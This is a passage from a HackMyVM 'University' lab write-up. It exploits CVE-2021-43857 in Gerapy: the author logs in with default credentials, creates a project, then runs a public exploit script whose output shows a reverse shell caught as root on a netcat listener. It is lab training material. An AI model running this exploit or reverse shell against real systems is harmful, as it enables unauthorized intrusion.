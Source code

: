 ```bash
Exploit for CVE-2021-43857
For: Gerapy < 0.9.8
[*] Resolving URL...
[*] Logging in to application...
[*] Login successful! Proceeding...
[*] Getting the project list
Traceback (most recent call last):
  File "/home/emvee/Documents/HMV/University/50640.py", line 130, in <module>
    exp.exploitation()
  File "/home/emvee/Documents/HMV/University/50640.py", line 76, in exploitation
    name = dict3[0]['name']
           ~~~~~^^^
IndexError: list index out of range


```
An error occured, it looks like there is something is missing what is needed to run the exploit.
Let's try to logon to Gerapy with the default credentials: `admin:admin`.
![image](/assets/img/WriteUp/HackMyVM/University/Pasted image 20230915214307.png){: width="700" height="400" }

First we have to select the language to English so we can understand what is written on the page.
![image](/assets/img/WriteUp/HackMyVM/University/Pasted image 20230915214332.png){: width="700" height="400" }

It looks like we have no project and clients. Let's create one first.
![image](/assets/img/WriteUp/HackMyVM/University/Pasted image 20230915214422.png){: width="700" height="400" }

First we had to navigate on `Projects`. Then we have to follow three little steps.
1. Hit the Create button
2. Enter a project name
3. Hit the Create button

The project should have been stored.
![image](/assets/img/WriteUp/HackMyVM/University/Pasted image 20230915214443.png){: width="700" height="400" }

Now we are ready to run the exploit and catch a shell back.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/University]
└─$ python3 50640.py -t $ip -p 8080 -L 10.0.2.15 -P 8787
  ______     _______     ____   ___ ____  _       _  _  _____  ___ ____ _____ 
 / ___\ \   / / ____|   |___ \ / _ \___ \/ |     | || ||___ / ( _ ) ___|___  |
| |    \ \ / /|  _| _____ __) | | | |__) | |_____| || |_ |_ \ / _ \___ \  / / 
| |___  \ V / | |__|_____/ __/| |_| / __/| |_____|__   _|__) | (_) |__) |/ /  
 \____|  \_/  |_____|   |_____|\___/_____|_|        |_||____/ \___/____//_/   
                                                                              

Exploit for CVE-2021-43857
For: Gerapy < 0.9.8
[*] Resolving URL...
[*] Logging in to application...
[*] Login successful! Proceeding...
[*] Getting the project list
[*] Found project: test
[*] Getting the ID of the project to build the URL
[*] Found ID of the project:  1
[*] Setting up a netcat listener
listening on [any] 8787 ...
[*] Executing reverse shell payload
[*] Watchout for shell! :)
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.13] 58888
root@university:/tmp/emvee/gerapy# 

```
